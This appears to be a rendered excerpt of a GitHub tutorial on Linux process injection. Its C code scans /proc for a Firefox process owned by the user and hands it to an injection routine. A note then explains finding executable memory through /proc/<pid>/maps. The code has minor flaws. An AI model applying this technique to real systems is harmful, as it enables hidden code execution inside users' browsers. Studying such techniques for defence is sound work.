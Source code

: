 ```c
                char buffer[CMDLINESZ * 2];

                int fd = open(path, O_RDONLY);
                if (fd < 0) { close(fd); continue; }

                int readsz = read(fd, buffer, sizeof(buffer));

                if(readsz < 0) continue;
                char *needle = strstr(buffer, DELIM);
                int uid = atoi(strtok(needle+strlen(DELIM), "\t"));

                //if this process is not owned by us; continue to the next process
                if(uid != getuid()) continue;

                memset(path, 0, sizeof(path)); memset(buffer, 0, sizeof(buffer)); close(fd);
                snprintf(path, sizeof(path), "/proc/%s/cmdline", e->d_name);

                fd = open(path, O_RDONLY);
                if(fd < 0){ close(fd); closedir(dir); return NULL; }

                readsz = read(fd, buffer, sizeof(buffer));
                if(readsz <= 0) continue;

                //This is option used to search for a specific process in memory
                if(strstr(buffer, "firefox") == NULL) continue;
                PPROCESS process = (PPROCESS) malloc(sizeof(PROCESS));
                memset(process, 0, sizeof(PROCESS));

                if(process == NULL) continue;

                //copy the details in memory
                process->pid = atoi(e->d_name);
                strncpy(process->proc_name, buffer, CMDLINESZ);

                //initiate process injection
                if(processInject(process) == 0){
                        free(process); continue;
                }

                head = process;
                break;
        }
        closedir(dir);
        return head;
}
```

### Address-Space Enumeration 

After a suitable remote process is enumerated and returned *(in this case our FireFox Process)*, we need to enumerate its **Virtual Address Space** to find an address range that is executable `(rwp)?x`. This address is returned by parsing and reading the `/proc/<pid>/maps` file. 
